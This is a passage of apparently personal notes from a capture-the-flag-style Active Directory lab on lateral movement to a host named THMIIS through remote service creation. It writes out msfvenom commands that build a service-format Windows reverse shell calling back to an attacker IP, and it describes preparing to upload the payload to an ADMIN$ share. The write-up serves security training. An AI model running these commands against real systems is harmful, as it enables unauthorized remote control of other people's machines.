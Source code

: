 	- When logging in SSH, only use the "t1_leonard.summers" to place in the placeholder "<AD Username>" in the command above.

- We'll show how to use those credentials to move laterally to `THMIIS` using `sc.exe`.
- Feel free to try the other methods, as they all should work against `THMIIS`.


- While we have already shown how to use `sc` to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service.
- However, if we try to run a `reverse shell` using this method, we will notice that the ***reverse shell disconnects immediately after execution***.

		- Reason: Service executables are different to standard ".exe" files, and therefore non-service executables will end up being killed by the Service Manager almost immediately.
		- Okay, so the presumption is "Service Manager" has a list of legitimate service executables.
		- If that is the case, would it be possible for us to create a malicious version of whatever service we are imitating and then provide an absolute path instead so it doesn't mistakenly execute the legitimate service nor kill this malicious version?

- Luckily for us, `msfvenom` supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

**Note**: since you will be sharing lab with others, you'll want to use a different filename for your payload instead of "`myservice.exe`" to avoid overwriting someone else's payload.

##### Creating a `Reverse Shell` that is compatible with the service created that is listening for the connection coming from `THMIIS` machine (Main Target)
- To create a reverse shell, we can use the following command:

```bash
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ATTACKER_IP> LPORT=4444 -o myservice.exe
```

<u>In the VM</u>:

```bash
root@ip-10-10-128-189:~# msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.49.2 LPORT=4444 -o dopedope.exe
```

![](/assets/img/Pasted image 20230205220709.png)

###### NOTE: USE THE IP (`INET`) IN HERE as your ATTACKER_IP
```
lateralmovement: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
inet 10.50.49.2  netmask 255.255.255.0  destination 10.50.49.2
inet6 fe80::3bbb:a46d:421a:1a2b  prefixlen 64  scopeid 0x20<link>
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100
```


##### Installation of malware/payload part:
- We will then proceed to use `t1_leonard.summers` credentials to upload our payload to the `ADMIN$` share of `THMIIS` using `smbclient` from our **AttackBox**:
